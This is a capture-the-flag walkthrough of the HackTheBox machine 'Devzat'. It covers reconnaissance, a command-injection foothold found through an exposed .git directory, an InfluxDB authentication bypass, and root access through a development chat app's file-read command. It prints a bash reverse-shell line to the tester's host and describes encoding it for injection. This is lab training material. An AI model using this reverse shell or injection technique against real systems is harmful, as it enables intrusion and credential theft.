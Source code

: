 == Introduction ==

Devzat is a box on HackTheBox that involves heavily exploiting a user created chat app. The chat app
does not seem to be usable for initial exploitation. However, after initial access, the app becomes
a great source of system enumeration from the chat logs, as well as being able to be used to privesc
to root. The initial access is gained from a subdomain hosting an incomplete CRUD app for managing
an inventory of pets that has the .git directory publicly available. With access to the git folder,
we can get the source for the web app and discover a command injection vulnerability that can be
exploited with Burpsuite. Initial access as Patrick allows us to read his chat logs, revealing an
Influxdb instance is running that is vulnerable to an authentication bypass. The database contains
credentials for another user, Catherine, who we are then able to login as. Catherine's chat log
reveals there is a development version of the chat app running on port 8443, and there is a backup
file on the system. Analysis of the backed up files shows we can use app on port 8443 to read files
as root. We can then read roots ssh key to login as root.

== Enumeration ==

=== Nmap ===

From the nmap results, we can see that this is a webserver with an unidentified app on port 8000.
Based on the scan on port 8000, it seems to be using a go library called [[https://github.com/karfield/ssh2go|ssh2go]]

{{{class="nohighlight"
Nmap scan report for devzat.htb (10.10.11.118)
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: devzat - where the devs at
|_http-server-header: Apache/2.4.41 (Ubuntu)
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=7/5%Time=62C472E7%P=x86_64-pc-linux-gnu%r(NUL
SF:L,C,"SSH-2\.0-Go\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/5%OT=22%CT=1%CU=34441%PV=Y%DS=2%DC=T%G=Y%TM=62C47312
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   21.19 ms 10.10.14.1
2   21.28 ms devzat.htb (10.10.11.118)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
}}}

=== Website - [[http://devzat.htb]] ===

Initial scanning shows the box has a website up. Trying to navigate to the website redirects us to
[[http://devzat.htb]]. After updating our /etc/hosts, we are able to see the webpage.

{{{class="nohighlight"
trent@TMDeal-kali[Devzat]$ cat /etc/hosts
...
10.10.14.1    devzat.htb
...
}}}

{{local:../images/devzat/website/homepage.png|http://devzat.htb Homepage}}

Not much about the site itself is interesting. However, there is a message at the bottom informing
the reader that they are invited to try out their chat app.

{{local:../images/devzat/website/chat_app_start_instructions.png|Chat app usage}}

When running the instructed command, you may receive an error about no matching host key type. This
error can be resolved by adding a few lines to ~/.ssh/config

{{{class="nohighlight"
Host devzat.htb
	HostName devzat.htb
	User dev
	PubkeyAcceptedAlgorithms +ssh-rsa
	HostkeyAlgorithms +ssh-rsa
}}}

Then we can run the command to gain access to the chat app

{{local:../images/devzat/chat_app/initial_connection.png|Initial Connection}}

=== Chat App First Look ===

With just the basic level of access we have, there is not much that can be done with the app right
now. We will come back to this at a later point

=== Subdomin - [[http://pets.devzat.htb]] ===

Taking a look back at port 80, since we needed to add an entry to /etc/hosts, it may be worthwhile
to scan for subdomains. We will scan for subdomains using Gobuster.

{{local:../images/devzat/website/pets/gobuster_subdomain_discovery.png|Pets Subdomain Discovery}}

Our scan finds one valid subdomain at [[http://pets.devzat.htb]] The homepage is an incomplete CRUD
app.

{{local:../images/devzat/website/pets/homepage.png|http://pets.devzat.htb Homepage}}

The most that can be done is adding a pet to the pet inventory, but its not hooked up to a database
so nothing saves. Running Gobuster to find other endpoints shows that [[http://pets.devzat.htb/.git/]]
is publicly readable. We can grab the contents of the folder with
[[https://pypi.org/project/git-dumper/|git-dumper]].

{{{class="nohighlight"
trent@TMDeal-kali[Devzat]$ git-dumper http://pets.devzat.htb/.git pets
...
...
...
trent@TMDeal-kali[Devzat]$ ls -al pets/
total 9776
drwxr-xr-x  5 trent trent    4096 Jul 26 17:44 .
drwxrwxrwt 28 root  root    12288 Jul 26 17:44 ..
drwxr-xr-x  2 trent trent    4096 Jul 26 17:44 characteristics
drwxr-xr-x  7 trent trent    4096 Jul 26 17:44 .git
-rw-r--r--  1 trent trent      25 Jul 26 17:44 .gitignore
-rw-r--r--  1 trent trent      88 Jul 26 17:44 go.mod
-rw-r--r--  1 trent trent     163 Jul 26 17:44 go.sum
-rw-r--r--  1 trent trent    4420 Jul 26 17:44 main.go
-rwxr-xr-x  1 trent trent 9957033 Jul 26 17:44 petshop
-rwxr-xr-x  1 trent trent     123 Jul 26 17:44 start.sh
drwxr-xr-x  4 trent trent    4096 Jul 26 17:44 static
}}}

This is probably the source code for the pets web application. Inside of main.go, there is code that
takes our input without sanitizing it and passes it to `exec.Command`. This means we can inject our
own commands into this command and gain remote code execution

{{local:../images/devzat/git/main_execs_sh.png|Call to exec.Command}}

== Shell as Patrick ==

To test if we can properly execute code, we will just see if we can get the contents of /etc/passwd

{{local:../images/devzat/git/burp_payload.png|Burp Payload}}
{{local:../images/devzat/git/dumping_etc_passwd.png|Contents of /etc/passwd}}

Now that we now we can actually exploit this, we can execute a callback to a netcat listener.

We base64 encrypt the command `bash -i >& /dev/tcp/10.10.14.7/4444 0>&1` and then decrypt and
execute it in a one liner. This is done to avoid messing up the payload with special characters like
`"` or `'`.

{{local:../images/devzat/git/rce_request.png|Sending the request with Burp}}
{{local:../images/devzat/shell_as_patrick.png|Shell as Patrick}}

From there, we can grab Patrick's ssh key for a better shell experience

{{local:../images/devzat/shell_as_patrick_ssh.png|Shell as Patrick}}

== Shell as Catherine ==

=== Interesting ports ===

After running linpeas, we can see that there are some ports that are open locally that we could not
previously access

{{local:../images/devzat/linpeas/active_ports.png|Open local ports}}

Right now, we do not know what these ports do, so we will look around some more.

=== Patrick Chat Log ===

We can see Patrick's chat log in the chat app by logging into it while logged into the machine as
Patrick

{{local:../images/devzat/patrick_chat_log.png|Patrick chat log}}

Looking up info on Influxdb shows that it runs on port 8086 by default, and is thus likely what we
saw earlier in linpeas. We can check the version of Influxdb running by making a HEAD request with
curl on port 8086

{{local:../images/devzat/influxdb/influxdb_version.png|Influxdb version}}

Looking up "Influxdb 1.7.5" on google shows results for
[[https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933|CVE-2019-20933]]. 

With this exploit, we can bypass authentication and gain access to the database as an admin. We need
to port forward with ssh in order to access the database on our machine.

`ssh -L 8086:127.0.0.1:8086 patrick@10.10.11.118 -i patrick_id_rsa`.

{{local:../images/devzat/influxdb/admin_access.png|Login as admin on Influxdb}}

From there, we can dump the data from the users table

{{local:../images/devzat/influxdb/user_passwords.png|Database dump}}

This reveals a few users and their passwords, but Catherine sticks out because that is a user on the
box. Attempting to use this password to switch users to Catherine is successful

{{local:../images/devzat/shell_as_catherine.png|Shell as Catherine}}
{{local:../images/devzat/user_get.png|User flag}}

== Shell as root ==

Now that we are Catherine, lets examine her chat log like we did for Patrick.

{{local:../images/devzat/catherine_chat_log.png|Catherine chat log}}

The chat log mentions the development version of the chat app is up on port 8443, and the source
code is in a backup file. Checking in /var/backup we find archives of the development and main
version.

{{local:../images/devzat/chat_app/backup_files.png|Backup files}}

Extracting and checking the this version of the code shows a new command `file` has been added that
allows reading files on the system. A password is required, but it is hardcoded into the app, so we
can just read it. Since this program is running as root, we can read roots ssh key

{{local:../images/devzat/dev_chat_app/pass_for_reading_files.png|Password to run command}}
{{local:../images/devzat/dev_chat_app/root_ssh_key.png|Reading root ssh key}}

Then we can just ssh as root

{{local:../images/devzat/shell_as_root.png|Shell as root}}
{{local:../images/devzat/root_get.png|Root flag}}
